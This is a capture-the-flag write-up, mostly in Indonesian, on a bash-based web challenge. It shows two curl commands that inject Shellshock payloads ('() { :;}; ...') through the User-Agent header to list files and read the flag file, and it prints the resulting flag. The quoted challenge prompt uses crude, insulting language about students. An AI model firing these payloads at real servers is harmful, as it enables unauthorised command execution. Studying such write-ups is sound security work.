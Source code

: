 Deskripsi soal: 

<pre>
"How did I end up here?" is the only question you can think of since you've become a high school teacher. 
Let's face it, you hate children. Bunch of egocentric retards. Anyway, you are not going to take it anymore. 
It's time to have your little midlife crisis right in the face of these fuckers.
Good thing that you're in the middle of some project days and these little dipshits wrote a simple message storing web application. 
How cute. It's written in bash... that's... that's... aw- no... bashful. 
You've got the source, you've got the skills. 0wn the shit out of this and show them who's b0ss.
</pre>

URL: https://school.fluxfingers.net:1503

Peserta diberikan soal dimana sebuah website dapat meng-handle Bash script. Sebenarnya kami tidak berhasil tepat waktu menyelesaikan tantangan yang satu ini tepat waktu, tapi tidak ada salahnya kami membagikan cara penyelesaiannya.
<br />
Jadi, pada soal tantangan kali ini kami mencoba untuk melakukan serangan <i>command injection</i> melalui header tepatnya pada sisi <i>User-Agent</i>. Kami menggunakan <i>trigger exploit</i> <b>Shellshock</b> untuk mengetes kerentanan apakah Bash yang terdapat pada situs ini memiliki kerentanan akan serangan tersebut.
<br />
Kemudian , untuk mencoba trigger exploit tersebut kami menggunakan curl untuk menjalankan custom <i>User-Agent</i> yang sebelumnya sudah kami beri trigger exploitnya. Selanjutnya kami menjalankan <i>directory listing</i> pada direktori /bin <br />
```bash
curl -A "() { :;}; /bin/ls;" https://school.fluxfingers.net:1503/?sessid=sessid_anda
```
Voila! terdapat beberapa file - file yang menarik disini, berarti ini menunjukkan trigger exploit tersebut berjalan dengan baik.
<pre>
404.sh
flag
home.html
home.sh
index.sh
</pre>
Terlihat file <b>flag</b> yang muncul dimana kami yakin itulah file yang menyimpan kalimat dari flag itu sendiri. Maka, perintah terakhir yang dijalankan ialah :
<br />
```bash
curl -A "() { :;}; /bin/cat flag;" https://school.fluxfingers.net:1503/?sessid=sessid_anda
```
<br />
Didapatkan flag: <b>flag{as_classic_as_it_could_be}</b>
